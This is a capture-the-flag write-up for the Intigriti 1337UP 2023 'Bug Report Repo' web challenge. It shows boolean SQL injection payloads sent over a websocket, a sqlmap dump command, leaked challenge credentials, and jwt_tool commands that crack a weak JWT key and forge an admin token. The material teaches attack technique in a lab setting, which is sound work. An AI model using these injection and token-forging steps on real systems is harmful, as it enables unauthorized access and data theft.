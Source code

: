 ```yaml
---
name: Bug Report Repo (2023)
event: Intigriti 1337UP Live CTF 2023
category: Web
description: Writeup for Bug Report Repo (Web) - Intigriti 1337UP Live CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Bug Report Repo

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/kgndZOkgVxQ/0.jpg)](https://www.youtube.com/watch?v=VX445yn4lQ4 "Websocket SQLi and Weak JWT Signing Key")

## Description

> I started my own bug bounty platform! The UI is in the early stages but we've already got plenty of submissions. I wonder why I keep getting emails about a "critical" vulnerability report though, I don't see it anywhere on the system 😕

## Part 1: Websocket SQLi

-   Players can use burp repeater to tamper with websocket requests, if they set the ID to 11, they will find an extra name `ethical_hacker`
-   If they probe with quotes, they will see errors then quickly find SQLi
    -   `{"id":"1 AND 1=1"}`
    -   `{"id":"1 AND 1=2"}`
-   Using this information, they will see need to dump the hidden row, either by filtering on `id`, `reported_by` or `severity`
-   Players can write a script, but may find [this 2021 writeup from Rayhan](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) to use SQLMap, but the script won't work by default:
    -   They need to change the `ws` protocol to `wss` for remote
    -   The DB is SQLite instead of MySQL, negative values in SQLMap will cause the script to freeze - players will need to add a timeout or logic to skip negative values
-   Launch the middleware script (sqlmap_proxy.py)
-   `sqlmap -u "http://localhost:9999/?id=1" --batch --proxy=http://127.0.0.1:8080 -T bug_reports -C description --where id=11 --dump --threads 10`
-   The hidden bug report is returned, which indicates there's an admin endpoint with weak creds

```bash
+--------------------------------------+
| description                          |
+--------------------------------------+
| crypt0:c4tz on /4dm1n_z0n3, really?! |
+--------------------------------------+
```

## Part 2: Weak JWT Signing Key

-   Players visit `/4dm1n_z0n3` and login with `crypt0:c4tz`
-   They see a message saying the key is only viewable by the admin
-   Crack the JWT with hashcat/john/jwt_tool etc, finding the key `catsarethebest` (present in rockyou.txt), e.g. jwt_tool takes like 3 secs
    -   `jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNhdCJ9.HJxAqYHm9TG8PBmMScRGsAPcK5vymC6AS4brUyfH7VA -C -d /usr/share/wordlists/rockyou.txt`
-   Forge JWT as admin, e.g. with jwt_tool
    -   `jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNhdCJ9.HJxAqYHm9TG8PBmMScRGsAPcK5vymC6AS4brUyfH7VA -S hs256 -p "catsarethebest" -I -pc identity -pv admin`
-   Login with the new cookie, revealing the config key which is the flag!

Flag: `INTIGRITI{w3b50ck37_5ql1_4nd_w34k_jw7}`
